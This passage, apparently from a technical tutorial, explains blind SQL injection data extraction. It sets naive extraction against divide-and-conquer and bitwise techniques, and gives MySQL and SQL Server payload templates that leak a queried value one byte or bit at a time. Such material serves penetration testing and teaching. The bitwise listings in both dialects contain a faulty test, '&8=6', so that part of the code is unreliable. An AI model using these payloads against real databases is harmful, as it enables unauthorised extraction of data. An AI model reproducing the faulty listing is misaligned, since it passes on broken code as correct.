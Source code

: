 The worst case for naïve byte extraction (with no optimizations) is 256 requests per byte, although in practice this would very rarely be the case. This is obviously terrible and no one would actually use this, but it is good to have a "worst case" starting point when considering improved techniques.

## Divide and conquer byte extraction
The divide and conquer algorithm +[Divide and conquer algorithm](https://en.wikipedia.org/wiki/Divide_and_conquer_algorithm) recursively splits a search space in two, checking which sub-set the result falls into until there is only one value remaining. It could be implemented using the following SQL statements:
`MySQL`
```sql
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<128 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<64 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<96 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<80 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<72 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<68 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<66 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))<67 THEN 1 ELSE 0 END
```
`SQL Server`
```sql
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<128 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<64 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<96 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<80 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<72 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<68 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<66 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)<67 THEN 1 ELSE 0 END
```
Where `(xxx)` is the query we want to make.

Each byte extracted using the divide and conquer requires 8 requests, this is already significant improvement over the naïve byte extraction method. However, requests cannot be parallelized per byte as each request (baring the first) depends on the result of the previous request so must be performed in serial.

## Bitwise byte extraction
To improve request parallelization we can use the bitwise byte extraction techniques. For this technique we simply test each bit of each byte we wish to extract, the result will either be a `1` or a `0` which map to our `true` or `false` query responses:
`MySQL`
```sql
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&1=1 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&2=2 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&4=4 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&8=6 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&16=16 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&32=32 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&64=64 THEN 1 ELSE 0 END
CASE WHEN ORD(SUBSTR(BINARY((xxx)), 1, 1))&128=128 THEN 1 ELSE 0 END
```
`SQL Server`
```sql
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&1=1 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&2=2 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&4=4 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&8=6 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&16=16 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&32=32 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&64=64 THEN 1 ELSE 0 END
CASE WHEN SUBSTRING(CONVERT(binary, (xxx)), 1, 1)&128=128 THEN 1 ELSE 0 END
```